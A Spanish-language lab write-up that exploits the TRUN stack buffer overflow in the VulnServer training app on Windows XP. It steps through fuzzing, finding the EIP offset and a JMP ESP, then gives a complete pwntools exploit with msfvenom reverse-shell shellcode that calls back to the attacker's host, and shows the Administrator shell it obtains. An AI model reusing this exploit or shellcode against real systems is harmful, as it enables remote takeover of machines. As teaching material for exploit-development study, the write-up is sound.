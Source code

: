 ```yaml
---
layout: post
title: VulnServer - TRUN
description: VulnServer - TRUN
tags: [BoF,osed]
---
```


### Detalles

- Máquina objetivo: Windows XP
- IP local: 192.168.0.107
- IP objetivo: 192.168.0.105
- Software de depuración: Inmunity Debugger

En este artículo solo me centraré en hacer uso de la técnica `salto a ESP`, por tanto omitiré algunas pasos que comunmente se daría en la explotación de un Buffer Overflow de 32 bits.

Iniciaré realizando un pequeño análisis del código de [vulnserver](https://github.com/stephenbradshaw/vulnserver) en la función `TRUN`

La opción 5 (TRUN) de `vulnserver` nos dice que se reserva 3000 bytes de nuestra entrada `RecvBuf` hacia una variable puntero `TrunBuf`. Verifica si la entrada tiene un caracter "." y llama a la función `Function3`

```
[...]
} else if (strncmp(RecvBuf, "TRUN ", 5) == 0) {
				char *TrunBuf = malloc(3000);
				memset(TrunBuf, 0, 3000);
				for (i = 5; i < RecvBufLen; i++) {
					if ((char)RecvBuf[i] == '.') {
						strncpy(TrunBuf, RecvBuf, 3000);				
						Function3(TrunBuf);
						break;
					}
				}
				memset(TrunBuf, 0, 3000);				
				SendResult = send( Client, "TRUN COMPLETE\n", 14, 0 );
[...]
```

dentro de `Function3` se llama a `strcpy` donde la cadena que se digitó por el usuario se copiará a la variable `Buffer2S` el cual sólo tiene un tamaño de 2000 bytes. Por tanto podemos romper la pila enviando una carga superior a 2000 bytes.

```
[...]
void Function3(char *Input) {
	char Buffer2S[2000];	
	strcpy(Buffer2S, Input);
}
[...]
```

### Fuzzing

Entonces envio una carga con un tamaño de 3000 bytes.

```
from pwn import *

host = "192.168.0.105"
port = 9999

r = remote(host, port)

payload = b""
payload += b"TRUN ."
payload += b"A"*3000

r.sendline(payload)
r.close()
```

Podemos ver como el programa crashea y esto se debe a que estamos enviando más bytes de lo que el programa puede soportar

![fuzz](/assets/imgs/trun/fuzz.png)

Si nos fijamos en la parte superior derecha de `Inmunity Debugger` donde se visualiza los registros vemos que somos capaces de sobreescribir `EIP`.

> **EIP** (Extended Instruction Pointer):es un registro en arquitectura x86 (32 bits) que apunta a la siguiente instrucción a ejecutar y contola el flujo de un programa

![reg](/assets/imgs/trun/reg.png)

----

### Encontrando EIP

La forma de obtener la compensación que necesitamos para controlar `EIP` es creando un patrón de caracteres, para ello utilizo `pattern_create` que viene por defecto en el sistema operativo Parrot.

```
❯ /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 3000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6[...]Ac7Ac
```

Ahora sólo sería cambiar la carga por el patron creado de 3000 bytes.

```
from pwn import *

host = "192.168.0.105"
port = 9999

r = remote(host, port)

payload = b""
payload += b"TRUN ."
payload += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9[...]" # size 3000 bytes

r.sendline(payload)
r.close()
```

Con ello tendriamos la dirección exacta de `EIP`

![eip](/assets/imgs/trun/eip.png)

```
❯ /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 396f4338
[*] Exact match at offset 2006
```

> **La parte de búsqueda de badchars se ha omitido ya que para este caso el único cáracter es el byte nulo `(\x00)`**


### Buscar un módulo adecuado

Listamos los modulos disponibles y escogemos el que tenga todas las protecciones deshabilitadas (en este caso essfunc.dll)

`!mona modules`

![mod](/assets/imgs/trun/mod.png)


Ahora verifiquemos si hay una instrucción `JMP ESP` disponible que podamos usar con la ayuda de mona. Simplemente podemos usar `!mona jmp -r esp -m essfunc.dll` para obtener una lista de instrucciones `JMP ESP`

> **ESP** (Extended Stack Pointer): apunta al tope de la pila, es decir al último elemento almacenado en ella. Cuando se almacena un nuevo valor en la pila push, el valor del puntero se actualiza pero siempre apuntar al tope de la pila  
> `JMP ESP`: Salto hacia el registro `ESP`

![dir](/assets/imgs/trun/dir.png)

Usaré la dirección `0x6225011af` como instrucción `JMP ESP`

### Generar shellcode

```
> msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.107 lport=4444 -f python -b "\x00" EXITFUNC=thread
```

### Obtener shell

Código final del exploit

> El payload final tiene la siguiente estructura: <relleno> + <salto a ESP> + <NOPS> + <shellcode>
> **NOPS**: instrucción que no realiza ninguna operación

```
from pwn import *

host = "192.168.0.105"
port = 9999

r = remote(host, port)

buf =  b""
buf += b"\xd9\xe1\xd9\x74\x24\xf4\xbf\xc3\x77\x6b\xbc\x58\x29"
buf += b"\xc9\xb1\x52\x31\x78\x17\x03\x78\x17\x83\x2b\x8b\x89"
buf += b"\x49\x57\x9c\xcc\xb2\xa7\x5d\xb1\x3b\x42\x6c\xf1\x58"
buf += b"\x07\xdf\xc1\x2b\x45\xec\xaa\x7e\x7d\x67\xde\x56\x72"
buf += b"\xc0\x55\x81\xbd\xd1\xc6\xf1\xdc\x51\x15\x26\x3e\x6b"
buf += b"\xd6\x3b\x3f\xac\x0b\xb1\x6d\x65\x47\x64\x81\x02\x1d"
buf += b"\xb5\x2a\x58\xb3\xbd\xcf\x29\xb2\xec\x5e\x21\xed\x2e"
buf += b"\x61\xe6\x85\x66\x79\xeb\xa0\x31\xf2\xdf\x5f\xc0\xd2"
buf += b"\x11\x9f\x6f\x1b\x9e\x52\x71\x5c\x19\x8d\x04\x94\x59"
buf += b"\x30\x1f\x63\x23\xee\xaa\x77\x83\x65\x0c\x53\x35\xa9"
buf += b"\xcb\x10\x39\x06\x9f\x7e\x5e\x99\x4c\xf5\x5a\x12\x73"
buf += b"\xd9\xea\x60\x50\xfd\xb7\x33\xf9\xa4\x1d\x95\x06\xb6"
buf += b"\xfd\x4a\xa3\xbd\x10\x9e\xde\x9c\x7c\x53\xd3\x1e\x7d"
buf += b"\xfb\x64\x6d\x4f\xa4\xde\xf9\xe3\x2d\xf9\xfe\x04\x04"
buf += b"\xbd\x90\xfa\xa7\xbe\xb9\x38\xf3\xee\xd1\xe9\x7c\x65"
buf += b"\x21\x15\xa9\x2a\x71\xb9\x02\x8b\x21\x79\xf3\x63\x2b"
buf += b"\x76\x2c\x93\x54\x5c\x45\x3e\xaf\x37\xaa\x17\xaf\xac"
buf += b"\x42\x6a\xaf\x23\xcf\xe3\x49\x29\xff\xa5\xc2\xc6\x66"
buf += b"\xec\x98\x77\x66\x3a\xe5\xb8\xec\xc9\x1a\x76\x05\xa7"
buf += b"\x08\xef\xe5\xf2\x72\xa6\xfa\x28\x1a\x24\x68\xb7\xda"
buf += b"\x23\x91\x60\x8d\x64\x67\x79\x5b\x99\xde\xd3\x79\x60"
buf += b"\x86\x1c\x39\xbf\x7b\xa2\xc0\x32\xc7\x80\xd2\x8a\xc8"
buf += b"\x8c\x86\x42\x9f\x5a\x70\x25\x49\x2d\x2a\xff\x26\xe7"
buf += b"\xba\x86\x04\x38\xbc\x86\x40\xce\x20\x36\x3d\x97\x5f"
buf += b"\xf7\xa9\x1f\x18\xe5\x49\xdf\xf3\xad\x6a\x02\xd1\xdb"
buf += b"\x02\x9b\xb0\x61\x4f\x1c\x6f\xa5\x76\x9f\x85\x56\x8d"
buf += b"\xbf\xec\x53\xc9\x07\x1d\x2e\x42\xe2\x21\x9d\x63\x27"

payload = b""
payload += b"TRUN ."
payload += b"A"*2006
payload += p32(0x625011af)
payload += b"\x90"*20
payload += buf

r.sendline(payload)
r.close()
```

Ejecutando el exploit

```
❯ python3 exploit.py
[+] Opening connection to 192.168.0.105 on port 9999: Done
[*] Closed connection to 192.168.0.105 port 9999

──────────────────────────────────────────────────────────────────────────────────

❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.105] 1053
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop\vulnerable-apps\vulnserver>whoami
whoami
ADVANCE-5583241\Administrator
```
